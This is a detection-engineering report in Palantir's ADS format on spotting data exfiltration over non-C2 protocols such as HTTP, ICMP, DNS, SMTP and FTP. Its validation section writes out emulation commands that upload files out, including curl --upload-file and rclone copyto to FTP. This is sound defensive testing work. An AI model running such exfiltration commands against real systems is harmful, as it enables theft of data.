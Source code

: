 # Alerting & Detection Strategy (ADS) Report: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol

## Goal
This strategy aims to detect adversarial attempts to bypass security monitoring by using alternative protocols for data exfiltration. Specifically, it focuses on techniques that involve the transmission of sensitive data via non-standard or obfuscated channels that are not typically monitored as command and control (C2) protocols.

## Categorization

- **MITRE ATT&CK Mapping:** T1048.003 - Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1048/003)

## Strategy Abstract
The detection strategy leverages network and host data sources to identify anomalous patterns indicative of exfiltration. Key data sources include:
- Network traffic logs (e.g., firewall, IDS/IPS)
- Host process monitoring (e.g., Sysmon on Windows, Auditd on Linux)
- Application logs

Patterns analyzed involve unusual network connections or data transfers over non-standard ports and protocols such as HTTP, ICMP, DNS, SMTP, FTP, etc. The strategy also examines uncharacteristic behavior in application usage that may suggest obfuscation or tunneling.

## Technical Context
Adversaries often execute exfiltration via alternative protocols to evade detection by traditional security controls. They may use:
- Obfuscated communication channels (e.g., DNS queries with encoded data)
- Non-standard ports for common protocols (e.g., HTTP on non-port 80/443)

### Adversary Emulation Details
- **HTTP Exfiltration:** Using `curl` to upload files via a custom server setup.
- **ICMP Echo Requests:** Embedding small amounts of data in ICMP payloads.
- **DNS Tunneling:** Encoding data within DNS query strings.

## Blind Spots and Assumptions
- Assumes baseline knowledge of normal network behavior, which may not account for all legitimate uses of alternative protocols.
- Detection is less effective against highly sophisticated adversaries using custom encryption or encoding techniques.
- Relies on the availability and integrity of logs from various sources.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of non-standard ports for internal applications (e.g., development environments).
- Use of DNS for dynamic service discovery in microservices architectures.
- Normal SMTP traffic for email forwarding services.

## Priority
**Severity: High**
Justification: Exfiltration represents a significant risk as it directly leads to data loss. The ability to bypass traditional monitoring mechanisms makes this technique particularly dangerous and worthy of high priority.

## Validation (Adversary Emulation)
### Exfiltration Over Alternative Protocol - HTTP
1. Set up a simple HTTP server on an internal host using `python3 -m http.server`.
2. Use `curl` from another machine to upload files to the server: `curl --upload-file <file> http://<target-host>:<port>`.

### Exfiltration Over Alternative Protocol - ICMP
1. Use `hping3` to send custom ICMP packets with data payloads.
2. On the target, capture and decode these packets using a script or tool capable of interpreting embedded data.

### Exfiltration Over Alternative Protocol - DNS
1. Set up a DNS server that logs all queries.
2. Use a script on an attacker machine to encode data into DNS query strings and send them to the server.
3. Decode the responses from the DNS server to retrieve exfiltrated data.

### Exfiltration Over Alternative Protocol - SMTP
1. Configure a simple mail server (e.g., Postfix) to accept connections.
2. Use `swaks` or similar tools to send emails with attachments from an attacker machine.

### MAZE FTP Upload
1. Set up an FTP server on a target host.
2. Use `ftp` command-line tool to upload files: `ftp <target-host>` and follow prompts to transfer data.

### Exfiltration Over Alternative Protocol - FTP - Rclone
1. Install and configure `rclone` with a remote storage provider that accepts FTP.
2. Run `rclone copyto <file> ftp:` to exfiltrate data through the configured FTP server.

### Python3 http.server
- Start an HTTP server on the target host: `python3 -m http.server 8080`.
- Use any web client or tool like `wget` to upload files to this server.

## Response
When alerts fire, analysts should:
1. Verify the legitimacy of network traffic and connections.
2. Investigate involved endpoints for signs of compromise (e.g., unusual processes, file changes).
3. Correlate with other security events for broader context (e.g., lateral movement indicators).
4. Contain affected systems to prevent further data loss.
5. Perform a detailed forensic analysis to understand the scope and method of exfiltration.

## Additional Resources
- None available

This report provides a comprehensive overview of detecting adversarial attempts at exfiltrating data via non-C2 protocols, aligned with Palantir's ADS framework.